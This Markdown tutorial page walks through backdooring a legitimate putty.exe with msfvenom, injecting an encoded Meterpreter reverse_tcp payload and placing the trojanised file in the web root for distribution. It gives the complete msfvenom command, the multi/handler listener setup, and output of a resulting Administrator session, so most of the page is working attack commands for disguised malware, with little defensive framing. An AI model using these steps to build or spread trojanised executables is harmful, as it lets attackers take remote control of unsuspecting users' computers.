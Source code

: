 ```yaml
---
draft: false
title: MSF EXE Backdoor
linkTitle: MSF EXE Backdoor
translationKey: msf-exe-backdoor
date: 2017-06-16T14:00:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Creating a backdoor with an EXE file.
url: /msf-exe-backdoor/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 420
---
```

## Creating a Backdoor with an EXE File

Creating a special .exe file for a target computer and embedding codes in it can be really time-consuming. Instead, you can place Metasploit Payload modules inside an existing .exe file.

In this article, we will see how to place and encode a Metasploit Payload inside an .exe file. This will open a Meterpreter session on our computer from the computer of the user who runs the encoded special .exe file.

## Downloading an Exe File

In our example, we will use the file named `putty.exe`. First, let's download this file. Since we will distribute our encoded .exe file from the web page, let's go to the `/var/www/` folder where our server is located in Kali Linux and start the download with the following command.

```bash
root@kali:/var/www# wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
--2015-07-21 12:01:27--http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe

Resolving the.earth.li (the.earth.li)... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li (the.earth.li)|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe
[following]
--2015-07-21 12:01:27--http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 (512K) [application/x-msdos-program]
Saving to: `putty.exe'

100%[===================================================================================================>] 524,288 815K/s in 0.6s

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved [524288/524288]

root@kali:/var/www#
```

Now, inside this downloaded `putty.exe` file, we will insert a Metasploit Payload module using the `msfvenom` command. The module we will insert is the `windows/meterpreter/reverse_tcp` module and we will set our own IP address 192.168.1.101 as the LHOST.

Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.

```bash

root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe

Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#
```

When the process is completed successfully, we have an executable file named ```puttyX.exe``` with a payload inside.

Since the reverse payload is placed inside the .exe file, this payload will want to connect to our local computer. Then, we need to run a listener module in ```msfconsole``` so that the connection is possible.

For this, let's use the ```exploit/multi/handler``` module and make the necessary settings.

```bash
msf > use exploit/multi/handler

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.101:443
[*] Starting the payload handler...
```

Now the listening module is working. What needs to be done after this stage is to distribute the .exe file we created over the web. When any user runs this file, it will automatically connect to our local computer and open a Meterpreter session.

```bash
> Sending stage (749056 bytes) to 192.168.1.201
> Meterpreter session 1 opened (192.168.1.101:443 -> 192.168.1.201:1189) at Sat Feb 05 08:54:25 -0700 2011

meterpreter > getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter >
```

The operations described in this article and the distribution of the .exe file may take longer than it seems. Only the logic of the process is tried to be explained here.
